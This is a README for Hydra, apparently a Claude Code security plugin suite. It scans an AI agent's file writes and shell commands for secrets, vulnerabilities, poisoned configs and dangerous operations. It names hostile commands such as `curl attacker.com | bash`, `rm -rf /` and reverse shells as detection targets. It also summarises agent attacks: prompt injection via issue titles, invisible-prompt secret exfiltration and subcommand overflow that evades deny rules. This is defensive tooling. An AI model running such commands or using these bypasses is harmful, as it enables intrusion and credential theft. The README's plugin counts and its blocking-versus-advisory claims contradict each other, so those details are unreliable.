



# Hydra

<p align="center">
  
</p>

<p>
  <a href="LICENSE"></a>
  
  
  
  
  <a href="https://www.repostatus.org/#active"></a>
</p>

> **An @enchanter-ai product — algorithm-driven, agent-managed, self-learning.**

**5 plugins. 5 agents. 1,844 patterns. 8 algorithms. 98 CWEs. 20 attack databases. Zero dependencies.**

Built from blood — every pattern traces back to a real CVE, a real breach, or a real research paper.

> Clone a malicious repo. Open it in Claude Code.
>
> Before you type a single command, config-shield has already flagged the hidden
> `postinstall` script in package.json, the API-key-stealing hook in `.claude/settings.json`,
> and the Unicode-obfuscated backdoor in `.cursorrules`.
>
> You start coding. Hydra catches the PostgreSQL connection string on line 12, flags
> the `pickle.loads()` as CWE-502, spots the JWT signed with `alg: "none"`, blocks the
> `rm -rf /tmp/*`, and quarantines a typosquatted npm package — all before you finish
> your coffee.
>
> End of session: 6 secrets masked, 4 vulns mapped to CWEs, 1 command blocked,
> 2 phantom dependencies caught, 0 incidents. Dark-themed HTML report generated.
>
> Total overhead: < 50ms per file write. You didn't notice it running.

## TL;DR

**In plain English:** Your AI just typed an AWS key into a committed file, ran `rm -rf ~/`, and pip-installed a typosquatted package. Hydra blocks each one before it lands.

**Technically:** R1 Aho-Corasick pattern engine scans 1,844 patterns across 20 databases (310 secret patterns + 156 OWASP/CWE-mapped vulns + 105 dangerous-ops + more) on every Write/Edit; R2 Shannon entropy analysis catches high-entropy strings that evade regex; R4 Markov Action Classification classifies Bash subcommands and surfaces dangerous ops at PreToolUse via advisory injection (exit 0 + stderr per `../vis/packages/core/conduct/hooks.md`). Every finding is keyed to a real CVE or CWE; no finding is fabricated from heuristics alone.

---

## Origin

**Hydra** takes its name from **Twilight Forest** — the swamp-dwelling multi-headed boss whose heads regenerate faster than they can be severed, forcing the player to strike every weak point at once. Security vulnerabilities work the same way: suppress one surface and two more emerge. Hydra finds them before they find you.

The question this plugin answers: *Is it safe?*

## Who this is for

- Teams who've accepted that AI-assisted development opens attack surfaces traditional scanners don't cover — poisoned `.claude/settings.json` hooks, prompt-injection-to-RCE chains, typosquatted deps the agent pulled in.
- Security-conscious developers who want findings keyed to real CVEs and CWEs, not vendor branding.
- Engineers running in environments where cloud security SaaS isn't an option — Hydra is bash + jq, no dependencies, no outbound calls.

Not for:

- Replacing your language-native linter / type-checker — Hydra complements them, doesn't duplicate them.
- Environments where advisory warnings are insufficient — Hydra's hooks inform, they don't silently block (see [../vis/packages/core/conduct/hooks.md](../vis/packages/core/conduct/hooks.md)).

## Contents

- [The Numbers](#the-numbers)
- [Why This Exists](#why-this-exists)
- [How It Works](#how-it-works)
- [What Makes Hydra Different](#what-makes-hydra-different)
- [The Full Lifecycle](#the-full-lifecycle)
- [Install](#install)
- [Quickstart](#quickstart)
- [5 Plugins, 5 Agents, 1,844 Patterns](#5-plugins-5-agents-1844-patterns)
- [What You Get Per Session](#what-you-get-per-session)
- [Roadmap](#roadmap)
- [The Science Behind Hydra](#the-science-behind-hydra)
- [The 20 Pattern Databases](#the-20-pattern-databases)
- [vs Everything Else](#vs-everything-else)
- [Agent Conduct (11 Modules)](#agent-conduct-11-modules)
- [Architecture](#architecture)
- [Testing](#testing)
- [Acknowledgments](#acknowledgments)
- [Versioning & release cadence](#versioning--release-cadence)
- [Contributing](#contributing)
- [Citation](#citation)
- [License](#license)

## The Numbers

| | Count |
|---|---|
| **Pattern databases** | 20 |
| **Security patterns** | 1,844 |
| **CWEs covered** | 98 |
| **CVEs referenced** | 30+ |
| **Attack categories** | 120+ |
| **Languages scanned** | 12 |
| **Package ecosystems** | 5 |
| **Named algorithms** | 8 |
| **Agents** | 5 |
| **Dependencies** | 0 (bash + jq) |

The largest open-source pattern database for AI coding agent security. Period.

---

## Why This Exists

Every pattern exists because something real happened to a real developer.

| Year | Incident | Impact | Hydra Coverage |
|------|----------|--------|-----------------|
| 2025 | **Clinejection** — prompt injection in GitHub Issue titles led to `npm publish` of malicious packages | Supply chain compromise | `cicd-attacks.json` — 130 CI/CD injection patterns |
| 2025 | **CamoLeak** — invisible prompt in PR description exfiltrated secrets via GitHub Camo proxy | Credential theft (CVE-2025-59145) | `ai-agent-attacks.json` — 116 AI/LLM attack patterns |
| 2025 | **Check Point hooks exploit** — `.claude/settings.json` ran reverse shell on repo clone | RCE (CVE-2025-59536) | `config-attacks.json` — 122 config poisoning signatures (incl. CVE-2026-33068, CVE-2026-35022) |
| 2025 | **MCP server SSRF** — 36.7% of 7,000 MCP servers vulnerable | Internal network pivoting | `ssrf-patterns.json` — 61 SSRF detection patterns |
| 2024 | **Leaky Vessels** — runc container escape via build-time race condition | Host filesystem access (CVE-2024-21626) | `container-security.json` — 113 container patterns |
| 2024 | **xz-utils backdoor** — nation-state supply chain attack on liblzma | SSH compromise (CVE-2024-3094) | `dependency-confusion.json` — 50 supply chain patterns |
| 2022 | **Auth0 JWT bypass** — algorithm confusion (alg:none) | Authentication bypass (CVE-2022-23529) | `auth-bypass.json` — 80 auth/session patterns |
| 2021 | **Log4Shell** — JNDI injection via log messages, most exploited vulnerability ever | Global RCE (CVE-2021-44228) | `logging-forgery.json` — 41 log injection patterns |
| 2021 | **Dependency confusion** — Alex Birsan hit Apple, Microsoft, Tesla internal build servers | RCE on build systems | `dependency-confusion.json` — install script abuse, lockfile poisoning |
| 2019 | **Capital One** — SSRF + overpermissive IAM exposed 106M records | Massive data breach | `iac-misconfig.json` — 120 IaC patterns |
| 2019 | **Cloudflare outage** — evil regex in WAF rules took down global CDN for 27 minutes | Global service disruption | `regex-dos.json` — 44 ReDoS patterns |
| 2019 | **Lodash prototype pollution** — `_.merge` CVE affected 25M+ weekly downloads | RCE via prototype chain (CVE-2019-10744) | `prototype-pollution.json` — 35 pollution patterns |

## How It Works

Hydra doesn't scan after the fact. It **intercepts** — before secrets hit disk, before dangerous commands execute, before malicious configs load.

At **SessionStart**, config-shield scans repo configs for CVE-matched attack signatures (R5). **PreToolUse** on Bash routes through action-guard (R4 + R7 advisory) and, for install verbs, package-gate (5 supply-chain risk signals). **PreToolUse** on WebFetch seeds a per-session canary token; **PreToolUse** on every tool checks capability-fence against the active skill's declared `allowed-tools`. **PostToolUse** on Write/Edit runs secret-scanner (R1 + R2) and vuln-detector (R3) in parallel; **PostToolUse** on WebFetch/WebSearch/Bash-network logs destinations via egress-monitor and scans for canary leakage. audit-trail logs every event with an HMAC hash-chain (tamper-evident) and drives R8 EMA posture decay across sessions. **license-gate** and **sbom-emitter** run at skill-invoke / release.yml time for compliance. The diagram below shows the bindings.

<p align="center">
  <a href="docs/assets/pipeline.mmd" title="View hook-binding diagram source (Mermaid)">
    
  </a>
</p>

<sub align="center">

Source: [docs/assets/pipeline.mmd](docs/assets/pipeline.mmd) · Regeneration command in [docs/assets/README.md](docs/assets/README.md).

</sub>

No permission prompts. No manual scanning. Every tool call is monitored. Dangerous commands are blocked before they execute.

## What Makes Hydra Different

### It runs at write-time, not push-time

GitHub Secret Scanning runs on push. Snyk runs in CI. semgrep runs in a pipeline. By the time they catch something, the secret is already in git history, the vulnerability is already deployed, the command has already executed.

Hydra hooks into Claude Code's tool lifecycle. `scan-secrets.sh` fires on every Write/Edit. `guard-action.sh` fires on every Bash call — **before** it executes. Exit code 2 blocks the tool entirely. The secret never reaches the file. The `rm -rf /` never runs.

### It blocks commands, not just reports them

Action-guard is a **PreToolUse** hook — it sees the command before Claude Code executes it. When it detects `rm -rf /`, `DROP TABLE`, `curl | bash`, or a reverse shell, it exits with code 2 and the command is cancelled.

```
[Hydra] BLOCKED: Recursive force delete from filesystem root (mode: balanced)
```

Three strictness modes:

| Mode | Block patterns | Warn patterns | Use when |
|------|---------------|---------------|----------|
| **strict** | BLOCK | BLOCK | High-security environments, prod-adjacent repos |
| **balanced** (default) | BLOCK | WARN (stderr) | Day-to-day development |
| **permissive** | WARN | WARN | Trusted code, prototyping |

### It detects attacks no other tool catches

**Config poisoning** (R5): Scans for malicious config files on session start — `.claude/settings.json` with hooks that execute `curl attacker.com | bash`, `.claudecode/settings.json` stealing API keys, `.vscode/tasks.json` auto-executing on folder open. Real CVEs that no other tool detects.

**AI agent attacks**: 116 patterns for prompt injection, MCP tool poisoning (incl. rug-pull descriptor mutation + schema `$ref` remote-load + homoglyph tool-name spoofing), invisible Unicode in rules files, markdown-image exfiltration (CamoLeak CVE-2025-59145), ANSI-escape output smuggling, jailbreak detection, and rules file backdoors. Built for the age of coding agents.

**Subcommand overflow** (R7): Adversa AI discovered that commands with 50+ subcommands bypass deny rules. Hydra counts first, matches second.

**Phantom dependencies** (R6): 20% of AI-suggested packages don't exist (USENIX 2025). Attackers register those names. 199 known hallucinated/typosquatted packages + Levenshtein distance catches the rest.

### It never logs your secrets

Every layer enforces masking. `mask_secret()` shows only first 4 and last 4 characters:

```
[Hydra] CRITICAL SECRET: aws-access-key-id in config.py:12 (masked: AKIA...MPLE)
```

The full value never appears in stderr, audit logs, metrics, or reports. Not in any code path.

### It learns across sessions

The **EMA Posture Decay** engine (R8) tracks security posture over time:

<p align="center"></p>

Patterns you consistently dismiss get lower severity. Chronic vulnerabilities escalate. The engine gets smarter with every session.

## The Full Lifecycle

A single session flows left to right through five stages. **Config Shield** runs once at SessionStart and reports via `/hydra:config-check`. Every Bash call routes through **Action Guard** (PreToolUse, `/hydra:safety`). If the command is allowed, every Write/Edit fans out in parallel to **Secret Scanner** (`/hydra:secrets`) and **Vuln Detector** (`/hydra:vulns`). All events land in **Audit Trail** (`/hydra:audit`).

<p align="center">
  <a href="docs/assets/lifecycle.mmd" title="View session-lifecycle diagram source (Mermaid)">
    
  </a>
</p>

<sub align="center">

Source: [docs/assets/lifecycle.mmd](docs/assets/lifecycle.mmd) · Regeneration command in [docs/assets/README.md](docs/assets/README.md).

</sub>

## Install

Hydra ships as 5 plugins layering defenses across SessionStart / PreToolUse / PostToolUse. One meta-plugin — `full` — lists all five as dependencies, so a single install pulls in the whole stack.

**In Claude Code** (recommended):

```
/plugin marketplace add enchanter-ai/hydra
/plugin install full@hydra
```

Claude Code resolves the dependency list and installs all 5 plugins. Verify with `/plugin list`.

**Want to cherry-pick?** Individual plugins are still installable by name — e.g. `/plugin install hydra-secret-scanner@hydra` if you only need credential scanning. Each plugin covers a different attack surface, though, so `full@hydra` is the path we recommend for real defense-in-depth.

**Via shell** (also installs `shared/*.sh` and `shared/scripts/*.py` locally so hooks work offline):

```bash
bash <(curl -s https://raw.githubusercontent.com/enchanter-ai/hydra/main/install.sh)
```

## Quickstart

```bash
git clone https://github.com/enchanter-ai/hydra
cd hydra
./scripts/bootstrap.sh    # canonical first command — installs vis sibling
```

Without `./scripts/bootstrap.sh`, conduct imports will silently miss and Claude Code's `@`-loader will fail-soft. Always bootstrap first.
## 11 Plugins, 11 Agents, 1,844 Patterns

Five **scanner plugins** (the original lineup), four **advisory hook plugins** (added 2026-05-05) that close supply-chain, exfil, prompt-injection, and capability-fence gaps, plus two **compliance plugins** (license-gate, sbom-emitter — added 2026-05-05, originally drafted in pech then re-homed here as supply-chain belongs under security).

| Plugin | Command | What | Agent |
|--------|---------|------|-------|
| secret-scanner | `/hydra:secrets` | 319 secret patterns + entropy analysis | scanner (Haiku) |
| vuln-detector | `/hydra:vulns` | 1,525 vulnerability patterns across 98 CWEs | analyzer (Sonnet) |
| action-guard | `/hydra:safety` | 113 dangerous ops; **advisory** (was blocking) | guardian (Sonnet) |
| config-shield | `/hydra:config-check` | 122 config attack signatures, 8 CVEs | inspector (Sonnet) |
| audit-trail | `/hydra:audit` | HMAC hash-chain JSONL + audit-verify skill | chronicler (Haiku) |
| **package-gate** | (advisory) | npm/pip/uv/cargo/go/gem pre-install: 5 risk signals | (advisory hook) |
| **egress-monitor** | (advisory) | NDJSON log of every WebFetch/Bash-network destination | (advisory hook) |
| **canary** | (advisory) | Per-session injection canary tokens; PostToolUse leak scan | (advisory hook) |
| **capability-fence** | (advisory) | Subagent-escape detection vs declared `allowed-tools` | (advisory hook) |
| **license-gate** | (skill / CI) | SPDX allow/deny scan over npm + pip dep trees | (skill-invoked) |
| **sbom-emitter** | (skill / CI) | CycloneDX SBOM generation, wired into release.yml | (skill-invoked) |

## What You Get Per Session

Three hook events fan out into three color-coded journals — one per defense layer — and converge on the dark-themed HTML security report + the `/hydra:*` query surface. Color maps defense layers to journals: blue = secret-scanner (R1 + R2 detection) · red = action-guard (R4 + R7 blocking) · yellow = audit-trail (R8 aggregate posture).

<p align="center">
  <a href="docs/assets/state-flow.mmd" title="View state-flow diagram source (Mermaid)">
    
  </a>
</p>

<sub align="center">

Source: [docs/assets/state-flow.mmd](docs/assets/state-flow.mmd) · Regeneration command in [docs/assets/README.md](docs/assets/README.md).

</sub>

## Roadmap

Tracked in [docs/ROADMAP.md](docs/ROADMAP.md) and the shared [ecosystem map](docs/ecosystem.md). For upcoming work specific to Hydra, see issues tagged [roadmap](https://github.com/enchanter-ai/hydra/labels/roadmap). Pattern-database additions (new CVEs, OWASP LLM Top 10 revisions, new CWE coverage) ship in minor / patch releases; the ROADMAP captures engine-level changes.

```
plugins/audit-trail/state/
├── audit.jsonl         Every security event, JSONL, 10MB rotation
└── metrics.jsonl       Aggregate scan metrics

plugins/secret-scanner/state/
├── audit.jsonl         Secret findings with masked values
└── metrics.jsonl       Scan counts and timing

plugins/action-guard/state/
├── audit.jsonl         Blocked/warned commands with reasons
└── config.json         Strictness mode (strict/balanced/permissive)

/tmp/hydra-report.html Dark-themed HTML security report
```

The **HTML security report** includes severity distribution bars, CWE pills, finding-by-finding breakdown, per-file risk summary, and an overall verdict (CLEAN / CAUTION / WARNING / CRITICAL).

## The Science Behind Hydra

Every engine is built on a formal mathematical model. Full derivations in [`docs/science/README.md`](docs/science/README.md).

### R1: Aho-Corasick Pattern Engine

<p align="center"></p>

Trie with failure links. The hook uses `grep -Eof` with one pattern per line for native C speed (<50ms). The Python script builds the full automaton for batch scanning.

### R2: Shannon Entropy Analysis

<p align="center"></p>

<p align="center"> 4.5 AND length >= 20"></p>

Catches secrets that don't match any known pattern but have suspiciously high randomness.

### R3: OWASP Vulnerability Graph

<p align="center"></p>

Language-aware CWE pattern matching. Comment detection reduces false positives. Maps to OWASP Top 10 2021.

### R4: Markov Action Classification

<p align="center"></p>

<p align="center"></p>

State-machine classification against 113 dangerous command patterns. Exit 2 blocks execution.

### R5: Config Poisoning Detection

<p align="center"></p>

122 attack signatures across 30+ config file types. Base64 payload decoding. Hidden Unicode detection.

### R6: Phantom Dependency Detection

<p align="center"></p>

Levenshtein distance for typosquat detection. 199 known hallucinated/malicious packages across 5 ecosystems.

### R7: Subcommand Overflow Detection

<p align="center"> 50"></p>

Adversa AI discovered that safety filters fail when overwhelmed with subcommands. Hydra counts before matching.

### R8: EMA Posture Decay

<p align="center"></p>

<p align="center"></p>

Cross-session EMA of threat rates. Dismissed patterns decay. Chronic patterns escalate.

---

*Full derivations: [`docs/science/README.md`](docs/science/README.md). Every formula maps to running code in `shared/scripts/`.*

## The 20 Pattern Databases

### Threat Intelligence (1,844 patterns across 20 databases)

| Database | Patterns | What it detects |
|----------|----------|-----------------|
| **secrets.json** | 319 | AWS, GCP, Azure, OpenAI (+sk-proj, +sk-svcacct), Anthropic (+admin01), xAI, LangSmith, LangFuse, Pinecone v2, Supabase v2, NVIDIA NGC, Together AI, HF, GitHub, GitLab, Stripe, Slack, JWT, private keys, connection strings — 90+ providers |
| **vulns.json** | 156 | SQL injection, XSS, path traversal, command injection, SSRF, deserialization, CORS, insecure random, SSTI — OWASP Top 10 |
| **dangerous-ops.json** | 113 | `rm -rf /`, `DROP TABLE`, `curl\|bash`, base64-decode exec, reverse shells, K8s delete, Docker privileged, Terraform destroy, untrusted `npx`/`uvx`/`claude mcp add` launchers, `.claude/settings.json` direct writes |
| **config-attacks.json** | 122 | CVE-2025-59536, CVE-2025-54135, CVE-2026-21852, CVE-2026-33068 (`bypassPermissions`), CVE-2026-35022 (`apiKeyHelper` shell injection) — .claude hooks, .vscode autorun, .npmrc hijack, .mcp.json inline shell, hidden Unicode |
| **slopsquatting.json** | 199 | AI-hallucinated packages across npm, PyPI, Cargo, Go, RubyGems + Levenshtein typosquats |
| **cicd-attacks.json** | 130 | GitHub Actions `${{ }}` injection, `pull_request_target` abuse, Jenkins Groovy escape, GitLab CI dind, Azure DevOps variable injection |
| **container-security.json** | 113 | Dockerfile USER root, K8s privileged containers, hostNetwork, capabilities ALL, Helm secrets, docker-compose socket mounts |
| **iac-misconfig.json** | 120 | Terraform S3 public, IAM wildcard, open security groups — CloudFormation, ARM templates, Pulumi equivalents |
| **crypto-weakness.json** | 90 | MD5/SHA1, DES/RC4, ECB mode, hardcoded keys, weak RSA, bcrypt low rounds, TLS verification disabled |
| **auth-bypass.json** | 80 | JWT alg:none, session fixation, CSRF disabled, OAuth missing state, mass assignment, IDOR patterns |
| **ssrf-patterns.json** | 61 | Cloud metadata (AWS/GCP/Azure/Alibaba), localhost bypass (hex/octal/IPv6), scheme abuse (gopher/file/dict), user-URL fetch |
| **api-security.json** | 81 | GraphQL introspection, no rate limit on login, CORS reflect origin, WebSocket no auth, gRPC no TLS |
| **ai-agent-attacks.json** | 116 | Prompt injection, 18 MCP patterns (poisoning, shadowing, rug-pull descriptor mutation, schema `$ref` remote-load, name homoglyph), CamoLeak markdown-image exfil, ANSI-escape output smuggling, jailbreaks, rules file backdoors, invisible Unicode |
| **regex-dos.json** | 44 | Nested quantifiers `(a+)+`, overlapping alternation, evil email regex, `new RegExp(userInput)` |
| **deserialization.json** | 69 | Java ObjectInputStream, Python pickle, PHP unserialize, Ruby Marshal, .NET BinaryFormatter, Node serialize |
| **file-operations.json** | 50 | Zip slip, symlink race, TOCTOU, predictable temp files, upload without validation, LFI/RFI |
| **logging-forgery.json** | 41 | Log4Shell `${jndi:ldap://}`, CRLF injection, passwords in logs, ANSI escape injection |
| **prototype-pollution.json** | 35 | `__proto__` assignment, lodash.merge (CVE-2018-3721), JSON.parse spread, Express req.body pollution |
| **dependency-confusion.json** | 50 | npm preinstall abuse, lockfile registry mismatch, version wildcards, protestware, manifest confusion |
| **header-security.json** | 50 | CSP unsafe-inline/unsafe-eval, missing HSTS, X-Frame-Options ALLOWALL, directory listing, .git exposure |

### Coverage by Attack Surface

| Attack Surface | Databases | Combined Patterns |
|----------------|-----------|-------------------|
| **Secrets & credentials** | secrets, crypto-weakness | 409 |
| **Code vulnerabilities** | vulns, deserialization, file-operations, regex-dos, prototype-pollution, logging-forgery | 395 |
| **Infrastructure** | container-security, iac-misconfig, header-security | 283 |
| **CI/CD & supply chain** | cicd-attacks, dependency-confusion, slopsquatting | 379 |
| **Auth & API** | auth-bypass, ssrf-patterns, api-security | 222 |
| **AI/LLM agent** | ai-agent-attacks, config-attacks | 238 |
| **Dangerous commands** | dangerous-ops | 113 |

## vs Everything Else

| | Hydra | GitHub Secret Scanning | Snyk | semgrep | GitGuardian |
|---|---|---|---|---|---|
| Patterns | **1,844** | ~200 | ~1,000 | ~2,500 (rules) | ~400 |
| CWE coverage | **98 CWEs** | Secrets only | Varies | Varies | Secrets only |
| Scan timing | **Per-write** (real-time) | Push-time | CI pipeline | CI pipeline | Push-time |
| Command guarding | **PreToolUse advisory (exit 0 + stderr injection)** | — | — | — | — |
| Config poisoning | **122 signatures, 8 CVEs** | — | — | — | — |
| AI agent attacks | **116 patterns** | — | — | — | — |
| CI/CD injection | **130 patterns** | — | — | Partial | — |
| Container security | **113 patterns** | — | ✓ | ✓ | — |
| IaC scanning | **120 patterns** | — | ✓ | Partial | — |
| Supply chain | **249 packages + heuristics** | — | ✓ | — | — |
| Subcommand overflow | **R7 (Adversa AI bypass)** | — | — | — | — |
| Self-learning | **EMA across sessions** | — | — | — | — |
| Secret masking | **Enforced (first4...last4)** | ✓ | ✓ | — | ✓ |
| AI-agent aware | **Purpose-built for Claude Code** | — | — | — | — |
| Dependencies | **bash + jq (stdlib)** | GitHub | Node.js | Python | SaaS |
| Price | **Free (MIT)** | Free (public) / $$ | $$$ | Free / $$$ | $$$ |

## Agent Conduct (11 Modules)

Every skill inherits a reusable behavioral contract from [shared/](shared/) — loaded once into [CLAUDE.md](CLAUDE.md), applied across all plugins. This is how Claude *acts* inside Hydra: deterministic, surgical, verifiable. Not a suggestion; a contract.

| Module | What it governs |
|--------|-----------------|
| [discipline.md](../vis/packages/core/conduct/discipline.md) | Coding conduct: think-first, simplicity, surgical edits, goal-driven loops |
| [context.md](../vis/packages/core/conduct/context.md) | Attention-budget hygiene, U-curve placement, checkpoint protocol |
| [verification.md](../vis/packages/core/conduct/verification.md) | Independent checks, baseline snapshots, dry-run for destructive ops |
| [delegation.md](../vis/packages/core/conduct/delegation.md) | Subagent contracts, tool whitelisting, parallel vs. serial rules |
| [failure-modes.md](../vis/packages/core/conduct/failure-modes.md) | 14-code taxonomy for accumulated-learning logs |
| [tool-use.md](../vis/packages/core/conduct/tool-use.md) | Tool-choice hygiene, error payload contract, parallel-dispatch rules |
| [skill-authoring.md](../vis/packages/skills/conduct/skill-authoring.md) | SKILL.md frontmatter discipline, discovery test |
| [hooks.md](../vis/packages/core/conduct/hooks.md) | Advisory-only hooks, injection over denial, fail-open |
| [precedent.md](../vis/packages/core/conduct/precedent.md) | Log self-observed failures to `state/precedent-log.md`; consult before risky steps |
| [tier-sizing.md](../vis/packages/core/conduct/tier-sizing.md) | Prompt verbosity scales inversely with model tier; Haiku needs mechanical steps, Opus runs on intent |
| [web-fetch.md](../vis/packages/web/conduct/web-fetch.md) | External URL handling: cache, dedup, budget; WebFetch is Haiku-tier-only |

## Architecture

Interactive architecture explorer with plugin diagrams, hook binding maps, and data flow:

**[docs/architecture/](docs/architecture/)** — auto-generated from the codebase.

## Testing

```bash
bash tests/run-all.sh
```

35 tests across all 5 plugins + shared utilities. Tests validate:
- Secret detection (7 tests)
- Vulnerability detection (6 tests)
- Command blocking (7 tests)
- Config scanning (5 tests)
- Audit logging (2 tests)
- Path sanitization (2 tests)
- Pattern database integrity (6 tests — JSON validity, schema compliance, unique IDs, minimum counts, CWE coverage, regex compilation)

## Acknowledgments

Hydra builds on substrate laid by others:

- **[Claude Code](https://github.com/anthropics/claude-code)** (Anthropic) — the plugin surface this work extends.
- **[OWASP](https://owasp.org/)** — LLM Top 10 coverage and CWE reference material.
- **[MITRE ATT&CK](https://attack.mitre.org/)** — technique cross-references in the audit trail.
- **[Keep a Changelog](https://keepachangelog.com/)** — CHANGELOG convention.
- **[Semantic Versioning](https://semver.org/)** — versioning contract.
- **[Contributor Covenant](https://www.contributor-covenant.org/)** — Code of Conduct.
- **[repostatus.org](https://www.repostatus.org/)** — status badge.
- **[Citation File Format](https://citation-file-format.github.io/)** — citation metadata.
- **[Conventional Commits](https://www.conventionalcommits.org/)** — commit convention.

Every one of the 1,844 patterns traces back to a real CVE, research paper, or breach writeup; the audit trail records these references per-finding.

## Versioning & release cadence

Hydra follows [Semantic Versioning](https://semver.org/spec/v2.0.0.html). Breaking changes land on major bumps only; the [CHANGELOG](CHANGELOG.md) flags them explicitly. Release cadence is opportunistic — tags land when accumulated fixes or features justify a cut, not on a fixed schedule. Pattern-database refreshes (new CVEs, CWE revisions, OWASP updates) are **not** breaking and ship in minor / patch releases; hook-contract, audit-schema, or severity-scale changes **are** breaking. Migration notes between majors live in [docs/upgrading.md](docs/upgrading.md).

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md).

## Citation

If you use this project in research or derivative work, please cite it:

```bibtex
@software{hydra_2026,
  title = {Hydra},
  author = {{Klaiderman}},
  year = {2026},
  url = {https://github.com/enchanter-ai/hydra}
}
```

See [CITATION.cff](CITATION.cff) for additional formats (APA, MLA, EndNote).

## License

MIT

---

## Role in the ecosystem

Hydra is the **security layer** — and it runs first. At SessionStart, `config-shield` scans the repo for poisoned hooks, suspicious MCP servers, and obfuscated backdoors **before any agent has acted**, so downstream sibling plugins operate on a trusted surface. During the session, `action-guard`, `secret-scanner`, and `vuln-detector` fan out across tool events; `audit-trail` records every finding with severity + CVE/CWE reference.

Hydra does not engineer prompts (Wixie's lane), track tokens (Emu's lane), score change trust (Crow's lane), review code correctness (Lich's lane), or orchestrate git workflow (Sylph's lane). It decides whether the *environment* is hostile.

See [docs/ecosystem.md § Data Flow Between Plugins](docs/ecosystem.md#data-flow-between-plugins) for the full map.
